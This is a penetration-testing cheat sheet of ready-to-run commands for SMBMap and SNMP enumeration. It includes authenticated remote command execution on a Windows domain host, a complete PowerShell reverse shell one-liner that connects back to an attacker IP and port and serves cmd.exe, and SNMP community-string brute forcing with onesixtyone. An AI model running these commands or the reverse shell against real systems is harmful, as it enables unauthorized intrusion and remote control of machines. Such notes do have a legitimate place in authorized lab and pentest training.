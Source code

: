 ***

### SMBMap Commands

https://github.com/ShawnDEvans/smbmap

Show shares (or null sessions) on the host:
```
smbmap -H 10.11.1.223
```

Show shares using credentials on the host:
```
smbmap -H 10.11.1.223 -d thinc.local -u username -p password
```

Command execution using `smbmap`:

```
$ python smbmap.py -u ariley -p 'P@$$w0rd1234!' -d ABC -x 'net group "Domain Admins" /domain' -H 192.168.2.50
```

Nifty `smbmap` reverse shell (make sure you change the IP address):
```
python smbmap.py -u jsmith -p 'R33nisP!nckle' -d ABC -H 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'
```

***

## SNMP Commands

Scan for open SNMP ports:

```
nmap -sU --open -p 161 10.11.1.1-254 -oG snmplog.txt
```

Using `onesixtyone` tool:

```
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 10.11.1.$ip; done > iplist
onesixtyone -c community -i iplist
```
